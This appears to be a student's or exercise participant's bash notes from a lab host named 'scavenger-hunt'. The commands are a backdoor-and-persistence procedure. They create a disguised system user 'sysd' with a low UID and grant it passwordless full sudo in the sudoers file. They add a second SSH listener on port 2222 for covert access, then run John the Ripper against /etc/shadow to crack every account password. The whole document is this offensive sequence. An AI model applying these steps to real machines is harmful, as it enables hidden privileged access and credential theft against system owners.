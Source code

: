 #Bash Commands

#Create a sysd user
sudo useradd -r sysd

#Give sysd user a password
sudo passwd sysd
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully

#Give sysd user a system UID < 1000
usermod -u 888 sysd

#Give sysd user a GID equal to UID
groupmod -g 888 sysd

#Give sysd user full sudo access without a password
sysd ALL=(ALL) NOPASSWD:ALL (Inside sudoers file)

#Test sysd user sudo access
sudo -l
User sysd may run the following commands on scavenger-hunt:
    (ALL) NOPASSWD: ALL

#Allow SSH access via port 2222
sudo nano sshd_config

// Inside the sshd_config add a line for port 2222
Port 22
Port 2222

ctrl O to write file

#Test SSHD Configuration
sudo service sshd restart
exit
ssh sysd@192.168.6.105 -p 2222

#Switch back to root user
sudo su

#Crack all the passwords
cd etc
john shadow
